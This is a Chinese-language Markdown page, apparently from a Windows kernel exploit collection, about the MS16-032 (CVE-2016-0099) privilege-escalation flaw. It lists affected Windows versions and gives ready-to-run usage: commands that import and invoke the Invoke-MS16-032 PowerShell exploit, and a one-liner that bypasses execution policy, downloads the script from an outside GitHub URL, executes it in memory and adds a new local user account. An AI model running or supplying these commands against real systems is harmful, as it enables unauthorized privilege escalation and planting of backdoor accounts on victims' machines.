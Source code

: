 ### CVE-2016-0099

#### 描述

此漏洞影响从Vista到Windows 10的所有Windows版本（包括服务器版本）以及为了实现利用，因为PowerShell脚本指示需要满足以下要求：目标系统需要有2个以上的CPU核心 PowerShell v2.0及更高版本必须正在运行

#### 影响版本

| Product             | CPU Architecture | Version | Update | Tested             |
| ------------------- | ---------------- | ------- | ------ | ------------------ |
| Windows 10          |                  |         |        |                    |
| Windows 10          |                  | 1511    |        |                    |
| Windows 7           |                  |         | SP1    | &#10004; |
| Windows 8.1         |                  |         |        |                    |
| Windows Rt 8.1      |                  |         |        |                    |
| Windows Server 2008 |                  |         | SP2    | &#10004; |
| Windows Server 2008 |                  | R2      | SP1    | &#10004; |
| Windows Server 2012 |                  |         |        |                    |
| Windows Server 2012 |                  | R2      |        |                    |
| Windows Vista       |                  |         | SP2    |                    |

#### 利用方式

> 目标系统需要有2个以上的CPU核心

PS脚本测试，在Windows Server 2008 R2 SP1 x64执行下面命令

```
Import-Module .\Invoke-MS16-032.ps1
Invoke-MS16-032
```

还能远程添加账户

```
powershell -nop -exec bypass -c "IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/Ridter/Pentest/master/powershell/MyShell/Invoke-MS16-032.ps1');Invoke-MS16-032 -Application cmd.exe -commandline '/c net user ascotbe test6666 /add'"
```

GIF图如下

![6](https://raw.github.com/Ascotbe/Random-img/master/Kernelhub/CVE-2016-0099_win2008_x64_ps.gif)

利用exe文件测试通杀x64和x86的所有版本，这边只录制Windows 7 SP1 x64版本的

![7](https://raw.github.com/Ascotbe/Random-img/master/Kernelhub/CVE-2016-0099_win7_x64.gif)

